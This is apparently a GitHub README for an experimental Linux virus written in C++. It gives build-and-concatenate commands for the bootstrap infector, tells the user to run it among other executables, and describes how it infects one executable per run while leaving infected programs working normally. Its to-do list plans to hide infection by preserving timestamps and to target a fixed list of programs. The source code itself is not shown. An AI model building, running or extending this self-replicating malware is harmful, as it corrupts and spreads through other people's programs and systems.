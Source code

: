 This is a very simple EXPERIMENTAL virus program that runs in Linux.

This is a DANGEROUS experiment.

Do not run as `root`. Only test inside a dedicated directory.

#### Bootstrap procedure

````
g++ -O -Wall -std=c++11 hi.cpp -o hi
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
ls -l v_tmp
````

Make sure the size of `v_tmp` is `MYSIZE` in the `v.cpp` source. Do another

````
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
````

#### Start

Run the virus bootstrap executable in a directory that contains other executables:

````
./v
````

This will infect one executable per run, until all files are infected.

* Infected files run like normal. The orginal code will be executed by the virus code
* Only executables in the current directory are infected
* Infected programs do no more evil than only infecting other programs

#### To Do

* Use the original file's time-stamp for the infected file
* Add a fixed list of programs that will be attacked
